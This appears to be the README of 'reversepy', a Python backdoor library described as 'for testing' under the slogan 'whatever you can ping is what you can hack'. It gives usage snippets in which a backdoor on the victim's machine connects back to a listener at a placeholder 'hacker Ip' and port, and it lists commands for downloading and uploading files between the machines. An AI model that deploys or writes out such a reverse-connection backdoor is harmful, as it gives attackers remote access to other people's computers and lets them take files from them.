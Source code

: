 # reversepy
a backdoor library for testing
# whatever you can ping is what you can hack

 (hacker side):
 
 hacker=Listner("hacker Ip","open port")
 hacker.run()
 
 (victem side):
 
 victem=backdoor("hacker Ip","open port")
 victem.run()
 
 Listner must be excted before backdoor
 
 the script allow for donload and upload on hacker side:
 download "filename with extntion"
 upload "filename with extntion"
 
 
